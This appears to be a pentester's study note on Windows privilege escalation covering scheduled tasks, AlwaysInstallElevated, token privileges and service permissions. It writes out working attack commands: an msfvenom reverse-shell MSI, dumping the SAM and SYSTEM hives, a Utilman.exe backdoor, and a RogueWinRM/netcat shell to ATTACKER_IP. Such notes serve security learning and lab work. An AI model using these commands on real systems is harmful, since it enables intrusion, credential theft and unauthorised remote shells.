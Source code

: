 You can [[Password Harvesting|harvest passwords]] in Windows then use these to escalate or run commands.
## Scheduled tasks
Scheduled tasks can be used to escalate privileges. Check `schtasks` for an item whose binary is missing, or current user has permissions to edit.

`schtasks /query /tn <task> /fo list /v` for detailed view of a service.
`icacls <FilePath>` to check file permissions

# Permissions
## AlwaysInstallElevated
This is a setting that forces .msi files to be run/installed as a privileged account. This could allow for generation of a malicious MSI to run with admin privs.

Requires two registry settings:
```powershell
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Generate malicious MSI:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

## SeBackup / SeRestore
These privs allow users to read/write to any file, regardless of DACL. Idea is to allow certain users to backup the system without requiring full admin privs. For example, member of the "Backup Operators" group.

```shell-session
reg save hklm/system C:\Users\target\system.hive
reg save hklm/sam C:\Users\target\sam.hive
```

You can then use [[Hash Attacks]] to retrieve the hashes from the hive and pass the hash.

## SeTakeOwnership
Allows a user to take ownership of any object on the system, including files/registry keys.

Example attack: search for service running as SYSTEM, take ownership of the binary, change it to a shell.

Using Utilman.exe for execution vector (which is the accessibility button on login screen):
```cmd
takeown /f C:\Windows\System32\Utilman.exe
icacls C:\Windows\System32\Utilman.exe /grant <local_admin>:F
copy cmd.exe utilman.exe
```

## SeImpersonate / SeAssignPrimaryToken
These allow processes to impersonate other users, acting on their behalf. For example, ftp uses impersonation.

![[Token-based Impersonation.png]]
`LOCAL SERVICE` and `NETWORK SERVICE ACCOUNTS` have this priv. User `iis apppool\defaultapppool` also has it.

### Exploiting
To exploit, we need:
1. Spawn a process for users to connect and authenticate to it
2. Find a way to force privileged users to connect and authenticate to the spawned malicious process

`RogueWinRM` is useful for this. Exploit is possible b/c when a user starts BITS it connects to 5985 (WinRM service) using SYSTEM. If WinRM is stopped, we can replace with RogueWinRM

1. Start listener `nc -lvp 4442` on attacking machine
2. Start RogueWinRM
```cmd
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

# Services
`sc qc <service>` shows details about a specified service
Service configs are stored in `HKLM\SYSTEM\CurrentControlSet\Services\`

### Insecure permissions on service executable
If the binary for a service has weak perms or can be modified/replaced, we can gain service account privs.

### Unquoted service paths
If a service path is not quoted, SCM doesn't know how to parse a space. Is it a command + arguments? All one command?

### Insecure Service Permissions
Sysinternals tool `accesschk64.exe -qlc <service>` can be used to identify if a service DACL grants vulnerable account the `SERVICE_ALL_ACCESS` permission, which allows changing of a service including binary.

